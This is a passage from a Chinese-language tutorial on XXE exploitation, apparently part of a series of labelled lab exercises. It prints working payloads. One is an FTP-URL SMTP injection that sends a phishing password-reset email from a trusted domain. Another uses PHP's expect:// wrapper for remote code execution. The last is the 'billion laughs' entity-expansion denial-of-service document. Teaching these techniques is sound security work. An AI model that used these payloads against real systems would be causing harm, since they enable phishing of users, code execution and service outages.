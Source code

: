 当FTP客户端使用此URL连接时，以下命令将会被发送给VULNERABLESYSTEM.com上的邮件服务器：

**示例代码：**

```
ftp://a
EHLO a
MAIL FROM: <support@VULNERABLESYSTEM.com>
RCPT TO: <victim@gmail.com>
DATA
From: support@VULNERABLESYSTEM.com
To: victim@gmail.com
Subject: Reset your password
We need to confirm your identity. Confirm your password here: http://PHISHING_URL.com
.
QUIT
:support@VULNERABLESYSTEM.com:25
```

这意味着攻击者可以从从受信任的来源发送钓鱼邮件（例如：帐户重置链接）并绕过垃圾邮件过滤器的检测。除了链接之外，甚至我们也可以发送附件。

### **实验八：其他：**

除了上面实验中的一些常见利用以外还有一些不是很常用或者比较鸡肋的利用方式，为了完整性我在这一节简单的说一下：

#### **1.PHP expect RCE**

由于 PHP 的 expect 并不是默认安装扩展，如果安装了这个expect 扩展我们就能直接利用 XXE 进行 RCE

**示例代码：**

```
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>
```

#### **2. 利用 XXE 进行 DOS 攻击**

**示例代码：**

```
<?xml version="1.0"?>
     <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
     ]>
     <lolz>&lol9;</lolz>
```
